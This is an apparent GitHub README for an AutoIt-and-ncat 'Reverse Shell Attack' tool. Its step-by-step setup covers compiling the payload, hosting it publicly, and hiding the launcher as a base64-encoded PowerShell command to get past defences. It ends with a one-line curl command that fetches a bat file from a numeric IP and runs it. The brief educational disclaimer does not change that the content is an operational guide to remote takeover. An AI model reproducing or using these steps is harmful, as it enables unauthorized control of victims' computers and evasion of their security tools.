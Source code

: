 # Reverse Shell Attack

## Introduction

**Reverse Shell Attack** is a project written in AutoIt that establishes a TCP connection to perform a reverse shell. This project leverages AutoIt code alongside the `ncat` (Netcat) tool to create a listening server and handle remote connections, bypass firewall.

> ⚠️ **Warning**: This project is intended for educational purposes and penetration testing only. Unauthorized use of this code for malicious purposes is strictly prohibited and may have serious legal consequences. The user is fully responsible for how they use this tool.

---

## Features

- Establishes a reverse shell to connect remotely to a listening server.
- Utilizes TCP protocol for communication, managed through `ncat`.
- Enables remote system control via command-line interface.

---

## Technologies Used

This project incorporates the following technologies:

1. **AutoIt**:
   - The primary programming language used to write the code.
   - Known for its automation capabilities and system interaction.

2. **Batchfile**:
   - Used for supporting scripts and launching commands.

3. **Netcat (Ncat)**:
   - A powerful tool for creating TCP/IP connections.
   - Used to set up the listening server and manage shell communication.

---

## Getting Started

### Prerequisites

- **Ncat** or **Netcat** installed on your system.
- A host or server to hold file, make it public (or anything as long as it works with curl).

### Setup Instructions
1. **Setup AutoIt with function attack**:
- When done in SomeThing.au3, use Aut2Exe conver it to file .a3x.
- Chance HOST and PORT in SomeThing.au3 to your IP (public, not local).
2. **Ready env**:
- Move it to host or server, make it public (or anything as long as it works with curl). 
3. **Setup Bat file**:
* write batfile, example is ```MainScript.txt```. Chance IP, and write anything if you want.
* Convert to Base64 with:
`$fileContent = Get-Content -Raw -Path "YOUR PATH\MainScript.txt"; $base64Encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($fileContent))`
* $base64Encoded is your base64 code
* Make another bat file with script: `powershell.exe -EncodedCommand [your base64 code]`
4. **Ready to attack**:
* Save it, and mv to host. This is main bat file to attack. Example: ```HelloWord.bat```
5. **Attack**:
* Local attack by ```curl -O http://103.97.127.14/a.bat && a.bat && exit``` or convert to hex and attack with ShellCode Injection
* If you want to upgrade the au3 code, you can edit or add function to SomeThing.au3

---

## Contributing

Contributions to the project are welcome! If you have ideas for improvements or fixes, feel free to open a [pull request](https://github.com/tidzvl/Reverse-Shell-Attack/pulls) or create a [new issue](https://github.com/tidzvl/Reverse-Shell-Attack/issues).

---

## License

This project is licensed under the **MIT License**. See the `LICENSE` file for more details.

--- 

Feel free to suggest any modifications or additional sections you'd like to include!